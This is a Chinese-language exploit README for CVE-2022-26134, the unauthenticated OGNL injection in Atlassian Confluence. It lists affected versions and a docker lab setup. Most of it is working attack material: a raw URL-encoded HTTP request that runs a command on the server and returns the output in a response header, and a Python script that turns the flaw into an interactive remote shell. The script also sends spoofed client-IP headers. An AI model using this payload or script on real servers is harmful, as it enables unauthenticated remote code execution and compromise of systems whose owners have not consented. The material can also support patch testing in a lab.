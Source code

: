 # CVE-2022-26134

> **Cretae by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence OGNL表达式注入命令执行漏洞



# 0x01 漏洞概述

Atlassian Confluence 是一款各企业广泛使用的 wiki 系统。在Atlassian Confluence Server and Data Center上存在OGNL 注入漏洞，远程攻击者在未经身份验证的情况下，可构造OGNL表达式进行注入，实现在Confluence Server或Data Center上执行任意代码。

# 0x02 影响范围

- 1.3.0 <= Confluence Server and Data Center < 7.4.17
- Confluence Server and Data Center 7.12.5
- 7.13.0 <= Confluence Server and Data Center < 7.13.7
- 7.14.0 <= Confluence Server and Data Center < 7.14.3
- 7.15.0 <= Confluence Server and Data Center < 7.15.2
- 7.16.0 <= Confluence Server and Data Center < 7.16.4
- 7.17.0 <= Confluence Server and Data Center < 7.17.4
- 7.18.0 <= Confluence Server and Data Center < 7.18.1

# 0x03 环境搭建

执行如下命令启动一个Confluence Server 7.13.6：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8090` 即可进入安装向导，参考CVE-2019-3396这个环境中的安装方法，申请试用版许可证。在填写数据库信息的页面，PostgreSQL数据库地址为db，数据库名称confluence，用户名密码均为postgres。

![Untitled](image/Untitled.png)

# 0x04 漏洞复现

## 方式一：通过POC

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close

```

![Untitled](image/Untitled%201.png)

其中使用到的OGNL表达式如下：

```
${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}。
```

## 方式二：通过脚本

```
# CVE编号：cve-2022-26134
# By A-little-dragon

from datetime import datetime
import requests
from urllib.parse import quote

def GetTime():
    return datetime.strftime(datetime.now(), '%Y-%m-%d %H:%M:%S')

headers = {
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36",
    "Accept-Encoding": "gzip, deflate, br, zstd",
    "Accept-Language": "zh-CN,zh;q=0.9",
    "Pragma": "no-cache",
    "Priority": "u=0, i",
    "Sec-Ch-Ua": '"Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"',
    "Sec-Ch-Ua-Mobile": "?0",
    "Sec-Ch-Ua-Platform": '"Windows"',
    "Sec-Fetch-Dest": "document",
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "none",
    "Sec-Fetch-User": "?1",
    "Upgrade-Insecure-Requests": "1",
    "Ali-Cdn-Real-Ip": "localhost",
    "Cache-Control": "no-cache",
    "Cdn-Real-Ip": "localhost",
    "Cdn-Src-Ip": "localhost",
    "Cf-Connecting-Ip": "localhost",
    "Client-Ip": "localhost",
    "Forwarded": "localhost",
    "Forwarded-For": "localhost",
    "Proxy-Client-Ip": "localhost",
    "True-Client-Ip": "localhost",
    "Wl-Proxy-Client-Ip": "localhost",
    "X-Cluster-Client-Ip": "localhost",
    "X-Forwarded": "localhost",
    "X-Forwarded-For": "localhost",
    "X-Originating-Ip": "localhost",
    "X-Real-Ip": "localhost",
    "X-Remote-Addr": "localhost",
    "X-Remote-Ip": "localhost"
}

def start():
    url = input("Set Target URL > ")
    print(f"[+] {GetTime()} Start executing the attack program!")
    while True:
        try:
            command = input("$ > ")
            res = requests.get(
                url=url + f"/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{quote(command)}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/",
                headers=headers, allow_redirects=False)
            if res.status_code == 302:
                print(f"[+] {GetTime()} 执行成功！")
                print(res.headers.get("X-Cmd-Response"))
            else:
                print(f"[-] {GetTime()} 执行失败！")
        except Exception as e:
            print(f"[-] {GetTime()} 执行失败,原因如下：", e)

if __name__ == '__main__':
    start()

```

![Untitled](image/Untitled%202.png)
